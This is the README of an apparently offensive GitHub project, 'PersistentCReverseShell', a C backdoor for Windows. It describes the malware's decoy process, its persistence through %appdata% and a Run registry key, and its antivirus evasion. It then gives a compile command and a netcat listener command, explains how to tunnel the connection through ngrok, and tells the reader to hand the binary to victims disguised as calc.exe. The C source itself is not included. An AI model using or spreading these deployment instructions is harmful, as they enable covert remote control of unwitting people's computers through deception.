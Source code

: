 # PersistentCReverseShell

A FUD Backdoor Reverse Shell coded in C for any Windows distribution, that will fire a decoy app in the foreground while connecting back to the attacker machine as a silent background process.

<b>
In additition to this , the malware will copy itself in the %appdata% folder , and make itself persistent ON BOOT , by adding a startup registry key in :HKCU\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run

Thus at every boot, the malware will start a callback to the attacker machine, and will connect, provided the Listner, is on.
</b>

<b><i><u>
Oh, did I mention , that the shell that YOU WILL GET WILL BE A "POWRSHELL" !!!!   
</b></i></u>

Change the IP to the attacker machine's IP and the port number to your desired port number and compile using: 
<b>
i686-w64-mingw32-gcc creverse.c -o reverse.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
</b>

Pass it to the attacker , stating that this is a updated version of calc.exe. You can scan the application with your AV solutions , if you want , and I am pretty sure thant 98% of the AV solutions will NOT detect it. It has passed the check of Windows Defender with an updated definition file.

PLEASE DO NOT UPLOAD TO VIRUSTOTAL !!!

Start a netcat listener on port 8080 using nc -lvp 8080

Once the victim executes the app, the decoy process (calc.exe) will fire up in the foregroud on the victim's end , while a reverse shell will fire up in the background, giving you a POWERSHELL PROMPT on the attacking machine.

PS: Even if the victim decides to exit the calc.exe the reverse shell session will be on , as they are running on 2 different processes.

Cheers

#Captain_Nemo

PS: For WAN exploits , fire up ngrok with the following parameters (incase port forwarding is dissalowed by your ISP) ./ngrok tcp 8080

Region United States (us)
Web Interface http://127.0.0.1:4040
Forwarding tcp://0.tcp.ngrok.io:19864 -> localhost:8080

Connections ttl opn rt1 rt5 p50 p90
0 0 0.00 0.00 0.00 0.00

Ping 0.tcp.ngrok.io atleast 6-7 times to get a stable mirror IP and port. When u see that the IP and the port numbers are same after 5-6 last pings , use that IP and port in the code.> compile the code > pass it to the victim machine > make sure ngrok is NOT interrupted on the attacker machine as a new ngrok session will grab a new IP and port > start a nc -lvp 8080 on the attacker system. > execute the payload on the victim machine > get session over WAN/Internet on the attacker machine .


CHEERS

#CAPTAIN_NEMO
<b> https://youtu.be/nfK-3sYD4uE </b>
